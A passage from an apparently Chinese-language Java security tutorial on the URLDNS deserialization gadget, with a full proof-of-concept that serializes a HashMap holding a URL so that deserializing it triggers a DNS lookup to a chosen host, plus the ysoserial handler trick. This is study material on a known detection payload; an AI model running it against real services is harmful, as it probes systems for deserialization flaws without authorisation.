 ```java
        URL url = new URL("http://xrgsnqezso.yutu.eu.org");
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        f.setAccessible(true); //修改访问权限
        f.set(url,123); //设置hashCode值为123，这里可以是任何不为-1的数字
        System.out.println(url.hashCode()); // 获取hashCode的值，验证是否修改成功
        map.put(url,123); //调用map.put 此时将不会再触发dns查询
    }
```
此时输出url的hashCode为123，证明修改成功。
	![](https://img.l1uyun.one/javasec-urldns链_image_2.png)
当put完毕之后再将url的hashCode修改为-1，确保在反序列化调用hashCode方法时能够正常进行，下面是完整的POC
```java
#URLDNS.java

import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;
public class URLDNS {
    public static void main(String[] args) throws Exception {
        HashMap<URL, String> hashMap = new HashMap<URL, String>();
        URL url = new URL("http://xxxx.xxx.xxx");
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        f.setAccessible(true);
        f.set(url, 0xdeadbeef); // 设一个值, 这样 put 的时候就不会去查询 DNS
        hashMap.put(url, "rmb122");
        f.set(url, -1); // hashCode 这个属性不是 transient 的, 所以放进去后设回 -1, 这样在反序列化时就会重新计算 hashCode
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("out.bin"));
        oos.writeObject(hashMap);
    }
}

#Test.java
import java.io.FileInputStream;
import java.io.ObjectInputStream;
public class Test {
    public static void main(String[] args) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("out.bin"));
        ois.readObject();
    }
}
```

回过头来看看yso的payload

yso在创建URL对象时使用了三个参数的构造方法。yso用了子类继承父类的方式规避了dns查询的风险，其创建了一个内部类：
```java
static class SilentURLStreamHandler extends URLStreamHandler {

        protected URLConnection openConnection(URL u) throws IOException {
            return null;
        }

        protected synchronized InetAddress getHostAddress(URL u) {
            return null;
        }
    }
```
定义了一个URLConnection和getHostAddress方法，当调用put方法走到getHostAddress方法后，会调用SilentURLStreamHandler的getHostAddress而非URLStreamHandler的getHostAddress，这里直接return null了，所以自然也就不会产生dns查询。
